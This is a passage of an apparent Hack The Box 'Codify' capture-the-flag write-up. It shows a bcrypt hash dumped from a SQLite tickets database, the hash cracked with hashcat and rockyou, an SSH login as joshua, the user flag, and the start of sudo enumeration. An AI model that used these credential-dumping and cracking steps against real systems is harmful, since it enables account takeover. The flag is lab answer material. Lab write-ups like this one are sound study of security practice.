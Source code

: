 Looking at earlier, they also mention a ticketing system, and checking our `/var/www/contact`, we see a `tickets.db`.

Running `file` shows it to be a SQLite3 database.

I begin parsing it with `sqlite3`.

```
$ sqlite3
sqlite> .open tickets.db
sqlite> .tables
tickets  users
sqlite> .schema users
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
sqlite> SELECT * FROM users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We see joshua's password hash! Lets crack it with `hashcat` and use the [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz).

```
$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt

...
Session..........: hashcat
Status...........: Cracked
...

$ hashcat -a 0 -m 3200 joshua.hash rockyou.txt --show
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

His password is `spongebob1`! Lets SSH into his user account.
```
$ ssh josua@codify.htb

...
joshua@codify:~$ ls
test  user.txt
joshua@codify:~$ cat user.txt
c815809e836105effb21a8b582939998
```

Our user flag <mark>c815809e836105effb21a8b582939998</mark>!

## Root Flag

Running `sudo -l` and inputting joshua's password immediately shows an entry

```
$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
